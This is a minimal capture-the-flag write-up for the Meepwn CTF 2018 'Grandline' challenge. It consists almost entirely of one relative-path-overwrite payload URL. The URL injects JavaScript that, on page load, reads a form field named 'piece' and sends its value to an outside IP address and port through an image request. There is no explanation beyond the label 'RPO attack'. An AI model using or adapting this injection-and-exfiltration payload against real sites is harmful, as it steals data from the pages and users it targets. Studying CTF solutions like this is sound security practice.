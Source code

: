 # Meepwn CTF 2018 Quals : Grandline

## Write-up

- RPO attack

```
http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/..;/%0a*/%0awindow.onload=function(){var x=new Image();x.src=`http://174.138.24.108:1234/`%2bdocument.getElementsByName(`piece`)[0].value;aasdf;}%0acharset%20(/*/*
```
